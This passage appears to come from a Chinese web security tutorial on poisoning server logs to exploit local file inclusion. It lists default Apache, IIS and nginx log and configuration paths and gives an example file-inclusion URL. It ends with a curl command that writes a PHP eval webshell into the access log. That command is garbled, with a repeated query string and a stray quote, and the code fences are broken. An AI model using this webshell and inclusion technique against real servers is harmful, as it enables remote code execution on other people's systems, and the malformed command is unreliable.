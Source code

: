 前提是知道日志的物理存放路径。

**日志默认路径**

1. **apache+Linux日志默认路径**

    ```
/etc/httpd/logs/access_log  
    /var/log/httpd/access_log
    ```
```

2. **apache+win2003日志默认路径**

```
    D:\xampp\apache\logs\access.log
    D:\xampp\apache\logs\error.log
    ```

3. **IIS6.0+win2003默认日志文件**

   ```
   C:\WINDOWS\system32\Logfiles
   ```

4. **IIS7.0+win2003 默认日志文件**

   ```
   %SystemDrive%\inetpub\logs\LogFiles
   ```

5. **nginx 日志文件**

   日志文件在用户安装目录logs目录下。以我的安装路径为例`/usr/local/nginx`，那我的日志目录就是在`/usr/local/nginx/logs`里。

**web中间件默认配置**

1. **apache+linux 默认配置文件**

   ```
   /etc/httpd/conf/httpd.conf
   index.php?page=/etc/init.d/httpd
   ```

2. **IIS6.0+win2003 配置文件**

   ```
   C:/Windows/system32/inetsrv/metabase.xml
   ```

3.  **IIS7.0+WIN 配置文件**

   ```
   C:\Windows\System32\inetsrv\config\applicationHost.config
   ```

**curl 构造一句话，写入日志文件测试记录**

```
curl -v "http://127.0.0.1/php/1.php?page=<?php @eval($_POST\[123\]);?>"?page=<?php @eval($_POST\[123\]);?>"
```
